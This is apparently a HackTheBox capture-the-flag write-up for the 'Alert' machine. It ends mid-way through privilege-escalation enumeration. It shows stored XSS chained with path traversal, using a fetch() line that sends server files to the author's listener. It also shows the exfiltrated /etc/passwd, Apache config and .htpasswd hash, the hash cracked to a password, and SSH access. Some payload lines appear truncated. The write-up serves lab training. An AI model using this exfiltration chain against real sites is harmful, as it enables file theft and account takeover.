








## Introduction

This write-up details my approach to solving the HackTheBox machine "Alert". The box demonstrates several vulnerabilities including stored cross-site scripting (XSS), path traversal, and privilege escalation through file system permissions and monitored files.

## Initial Reconnaissance

Started with a Nmap scan to identify open ports:

```bash
❯ nmap -sC -sV -oA nmap/alert -v alert.htb
```

The scan revealed two open ports:
- Port 22 (SSH) - OpenSSH 8.2p1
- Port 80 (HTTP) - Apache 2.4.41

## Web Application Analysis

Browsing to the website revealed a "Markdown Viewer" application that allowed users to upload and view Markdown files:


### Initial Testing

Initial testing showed that the application was filtering file uploads to only allow `.md` file extensions. The application would then parse and render the Markdown content.

Upon uploading a test file, the system provided a shareable link:


```
http://alert.htb/visualizer.php?link_share=6760ee37175eb4.91557839.md
```

### Cross-Site Scripting Discovery

Testing revealed the application was vulnerable to stored XSS. By inserting a JavaScript payload into a Markdown file:


```markdown
# 
```

The XSS activated when viewing the shared link.



 According to the `about` page, this could be used to target administrators who review user submissions:
 

 We create a payload that if read by the admin would cause his browser to make a web request to our listening web-server on our attacking machine:
 

 We provide the sharable URL to our payload to the admins via the Contact Us page:
 

The admin clicks our link, and we get the request on our web-server:
```bash
❯ ws
Serving HTTP on :: port 8181 (http://[::]:8181/) ...
::ffff:10.129.189.89 - - [16/Dec/2024 22:32:57] "GET /?xss=triggered HTTP/1.1" 200 -
::ffff:10.129.189.89 - - [16/Dec/2024 22:32:58] "GET /?xss=triggered HTTP/1.1" 200 -
::ffff:10.129.189.89 - - [16/Dec/2024 22:32:58] "GET /?xss=triggered HTTP/1.1" 200 -
::ffff:10.129.189.89 - - [16/Dec/2024 22:32:59] "GET /?xss=triggered HTTP/1.1" 200 -
::ffff:10.129.189.89 - - [16/Dec/2024 22:32:59] "GET /?xss=triggered HTTP/1.1" 200 -
```

### Directory Enumeration

A Feroxbuster scan revealed an interesting endpoint:
```bash
❯ feroxbuster -u http://alert.htb/ -w ~/htb/code/SecLists/Discovery/Web-Content/raft-small-files-lowercase.txt
```

Discovered `messages.php` which accepted a `file` parameter:
```html
<h1>Messages</h1>
<ul>
    <li>
        <a href='messages.php?file=2024-03-10_15-48-34.txt'>2024-03-10_15-48-34.txt</a>
    </li>
</ul>
```

## Initial Foothold

### Path Traversal Exploitation

Combined the stored XSS with a path traversal attack to exfiltrate file contents:
```markdown
# r.text()).then(d=>fetch('http://10.10.14.87:8181/log?data='+encodeURIComponent(d)))">
```

When an administrator visited the shared link, the XSS executed and sent the encoded contents of `/etc/passwd` to my listening server:
```text
%3Cpre%3Eroot%3Ax%3A0%3A0%3Aroot%3A%2Froot%3A%2Fbin%2Fbash%0Adaemon%3Ax%3A1%3A1%3Adaemon%3A%2Fusr%2Fsbin%3A%2Fusr%2Fsbin%2Fnologin%0Abin%3Ax%3A2%3A2%3Abin%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Asys%3Ax%3A3%3A3%3Asys%3A%2Fdev%3A%2Fusr%2Fsbin%2Fnologin%0Async%3Ax%3A4%3A65534%3Async%3A%2Fbin%3A%2Fbin%2Fsync%0Agames%3Ax%3A5%3A60%3Agames%3A%2Fusr%2Fgames%3A%2Fusr%2Fsbin%2Fnologin%0Aman%3Ax%3A6%3A12%3Aman%3A%2Fvar%2Fcache%2Fman%3A%2Fusr%2Fsbin%2Fnologin%0Alp%3Ax%3A7%3A7%3Alp%3A%2Fvar%2Fspool%2Flpd%3A%2Fusr%2Fsbin%2Fnologin%0Amail%3Ax%3A8%3A8%3Amail%3A%2Fvar%2Fmail%3A%2Fusr%2Fsbin%2Fnologin%0Anews%3Ax%3A9%3A9%3Anews%3A%2Fvar%2Fspool%2Fnews%3A%2Fusr%2Fsbin%2Fnologin%0Auucp%3Ax%3A10%3A10%3Auucp%3A%2Fvar%2Fspool%2Fuucp%3A%2Fusr%2Fsbin%2Fnologin%0Aproxy%3Ax%3A13%3A13%3Aproxy%3A%2Fbin%3A%2Fusr%2Fsbin%2Fnologin%0Awww-data%3Ax%3A33%3A33%3Awww-data%3A%2Fvar%2Fwww%3A%2Fusr%2Fsbin%2Fnologin%0Abackup%3Ax%3A34%3A34%3Abackup%3A%2Fvar%2Fbackups%3A%2Fusr%2Fsbin%2Fnologin%0Alist%3Ax%3A38%3A38%3AMailing%20List%20Manager%3A%2Fvar%2Flist%3A%2Fusr%2Fsbin%2Fnologin%0Airc%3Ax%3A39%3A39%3Aircd%3A%2Fvar%2Frun%2Fircd%3A%2Fusr%2Fsbin%2Fnologin%0Agnats%3Ax%3A41%3A41%3AGnats%20Bug-Reporting%20System%20(admin)%3A%2Fvar%2Flib%2Fgnats%3A%2Fusr%2Fsbin%2Fnologin%0Anobody%3Ax%3A65534%3A65534%3Anobody%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-network%3Ax%3A100%3A102%3Asystemd%20Network%20Management%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-resolve%3Ax%3A101%3A103%3Asystemd%20Resolver%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-timesync%3Ax%3A102%3A104%3Asystemd%20Time%20Synchronization%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Amessagebus%3Ax%3A103%3A106%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Asyslog%3Ax%3A104%3A110%3A%3A%2Fhome%2Fsyslog%3A%2Fusr%2Fsbin%2Fnologin%0A_apt%3Ax%3A105%3A65534%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Atss%3Ax%3A106%3A111%3ATPM%20software%20stack%2C%2C%2C%3A%2Fvar%2Flib%2Ftpm%3A%2Fbin%2Ffalse%0Auuidd%3Ax%3A107%3A112%3A%3A%2Frun%2Fuuidd%3A%2Fusr%2Fsbin%2Fnologin%0Atcpdump%3Ax%3A108%3A113%3A%3A%2Fnonexistent%3A%2Fusr%2Fsbin%2Fnologin%0Alandscape%3Ax%3A109%3A115%3A%3A%2Fvar%2Flib%2Flandscape%3A%2Fusr%2Fsbin%2Fnologin%0Apollinate%3Ax%3A110%3A1%3A%3A%2Fvar%2Fcache%2Fpollinate%3A%2Fbin%2Ffalse%0Afwupd-refresh%3Ax%3A111%3A116%3Afwupd-refresh%20user%2C%2C%2C%3A%2Frun%2Fsystemd%3A%2Fusr%2Fsbin%2Fnologin%0Ausbmux%3Ax%3A112%3A46%3Ausbmux%20daemon%2C%2C%2C%3A%2Fvar%2Flib%2Fusbmux%3A%2Fusr%2Fsbin%2Fnologin%0Asshd%3Ax%3A113%3A65534%3A%3A%2Frun%2Fsshd%3A%2Fusr%2Fsbin%2Fnologin%0Asystemd-coredump%3Ax%3A999%3A999%3Asystemd%20Core%20Dumper%3A%2F%3A%2Fusr%2Fsbin%2Fnologin%0Aalbert%3Ax%3A1000%3A1000%3Aalbert%3A%2Fhome%2Falbert%3A%2Fbin%2Fbash%0Alxd%3Ax%3A998%3A100%3A%3A%2Fvar%2Fsnap%2Flxd%2Fcommon%2Flxd%3A%2Fbin%2Ffalse%0Adavid%3Ax%3A1001%3A1002%3A%2C%2C%2C%3A%2Fhome%2Fdavid%3A%2Fbin%2Fbash%0A%3C%2Fpre%3E%0A
```

The decoded file contents:
```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
fwupd-refresh:x:111:116:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
sshd:x:113:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
albert:x:1000:1000:albert:/home/albert:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
david:x:1001:1002:,,,:/home/david:/bin/bash
```

We see two users with a shell:
- albert
- david

### Further Enumeration

Used the same technique to retrieve Apache configuration files:
```markdown
# r.text()).then(d=>fetch('http://10.10.14.87:8181/log?data='+encodeURIComponent(d)))">
```

Discovered a subdomain `statistics.alert.htb` protected by basic authentication:
```shell
<pre>
<VirtualHost *:80>
    ServerName alert.htb

    DocumentRoot /var/www/alert.htb

    <Directory /var/www/alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    RewriteEngine On
    RewriteCond %{HTTP_HOST} !^alert\.htb$
    RewriteCond %{HTTP_HOST} !^$
    RewriteRule ^/?(.*)$ http://alert.htb/$1 [R=301,L]

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>

<VirtualHost *:80>
    ServerName statistics.alert.htb

    DocumentRoot /var/www/statistics.alert.htb

    <Directory /var/www/statistics.alert.htb>
        Options FollowSymLinks MultiViews
        AllowOverride All
    </Directory>

    <Directory /var/www/statistics.alert.htb>
        Options Indexes FollowSymLinks MultiViews
        AllowOverride All
        AuthType Basic
        AuthName "Restricted Area"
        AuthUserFile /var/www/statistics.alert.htb/.htpasswd
        Require valid-user
    </Directory>

    ErrorLog ${APACHE_LOG_DIR}/error.log
    CustomLog ${APACHE_LOG_DIR}/access.log combined
</VirtualHost>
</pre>
```

Retrieved the `.htpasswd` file using the same method:
```
albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/
```

### Credential Access

Cracked the Apache hash using Hashcat:
```bash
❯ hashcat -m 1600 -a 0 apache_hash.txt ~/htb/code/rockyou.txt
$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/:manchesterunited
```

Successfully authenticated via SSH with the cracked credentials and got the user flag:
```bash
❯ ssh albert@alert.htb
albert@alert.htb's password:

albert@alert:~$ whoami
albert
albert@alert:~$ cat user.txt
e2c3bde265068f5268--snip--
```

## Privilege Escalation

### Internal Service Discovery

Enumerated locally open ports:
```bash
albert@alert:~$ netstat -tulpn
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -
tcp6       0      0 :::80                   :::*                    LISTEN      -
tcp6       0      0 :::22                   :::*                    LISTEN      -
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -
```

Discovered port 8080 running locally, a PHP CLI server running as root:
```bash
albert@alert:~$ ps aux | grep php
root         982  0.0  0.6 207156 26376 ?        Ss   01:41   0:02 /usr/bin/php -S 127.0.0.1:8080 -t /opt
```

Set up SSH port forwarding to access the service:
```bash
❯ ssh -L 8181:127.0.0.1:8080 albert@alert.htb
```

Nmap scan of the forwarded port revealed a "Website Monitor" application with an exposed Git repository:
```bash
❯ nmap -sC -sV -p 8181 127.0.0.1
Starting Nmap 7.95 ( https://nmap.org ) at 2024-12-17 15:28 CST
Nmap scan report for localhost (127.0.0.1)
Host is up (0.00012s latency).

PORT     STATE SERVICE VERSION
8181/tcp open  http    PHP cli server 5.5 or later (PHP 7.4.3-4ubuntu2.24)
| http-git:
|   127.0.0.1:8181/.git/
|     Git repository found!
|     Repository description: Unnamed repository; edit this file 'description' to name the...
|     Remotes:
|_      https://github.com/neatnik/website-monitor.git
|_http-title: Website Monitor

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
